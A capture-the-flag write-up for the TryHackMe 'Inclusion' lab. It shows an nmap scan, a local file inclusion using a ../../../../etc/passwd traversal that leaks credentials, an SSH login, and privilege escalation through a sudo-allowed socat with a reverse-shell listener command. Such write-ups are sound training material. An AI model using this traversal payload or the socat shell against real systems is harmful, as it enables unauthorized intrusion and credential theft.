 # Inclusion WriteUp https://tryhackme.com/room/inclusion

## Lean more about [local file inclusion](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) and [remote file inclusion](https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/).

+ **Starting with a nmap scan for open ports**
  
    ``nmap -sV -sC -sT 10.10.26.204``

+ **HTTP is open**
  ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 19:20 EET
    Nmap scan report for 10.10.183.94
    Host is up (0.080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
    |   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
    |_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
    80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
    |_http-title: My blog
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.62 seconds

  ```


+ **Let's check the website** 
  
    ![1]

+ **and click an article**
  
    ![2]

    ``?name=lfiattack``

    looks like a file inclusion (no way!)

+ **Let's check /etc/passwd**

    ``../../../../etc/passwd``

    We find a username and password!

    ![3]

+ **ssh into the machine**

    ![4]

    and read the flag

    ![5]

+ **let's check what we can run**

    ``sudo -l``

    if you don't know what ``-l`` does:

    ![6]

    ![7]

+ **Let's read more on what socat does**

    

  ```
    What is socat?

    socat stands for SOcket CAT. It is a utility for data transfer between two addresses.

    What makes socat so versatile is the fact that an address can represent a network socket, any file descriptor, a Unix domain datagram or stream socket, TCP and UDP (over both IPv4 and IPv6), SOCKS 4/4a over IPv4/IPv6, SCTP, PTY, datagram and stream sockets, named and unnamed pipes, raw IP sockets, OpenSSL, or on Linux even any arbitrary network device.

  ```
  [you can learn more about socat here](https://medium.com/@copyconstruct/socat-29453e9fc8a6)

  then straight to [gtfobins](https://gtfobins.github.io/gtfobins/socat/) we go to see how we can exploit socat

+ **getting the root flag**

    run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on my pc

    and 

    ![8]

    on the host.

    Checking back on our terminal,we get:

    ![9]

    All that's left is to get the flag

    ![10]

[1]:./Screenshot_20200314_183209.png
[2]:./Screenshot_20200314_183239.png
[3]:./Screenshot_20200314_183308.png
[4]:./Screenshot_20200314_183724.png
[5]:./Screenshot_20200314_183810.png
[6]:./Screenshot_20200314_190744.png
[7]:./Screenshot_20200314_190801.png
[8]:./Screenshot_20200314_191328.png
[9]:./Screenshot_20200314_191313.png
[10]:./Screenshot_20200314_191404.png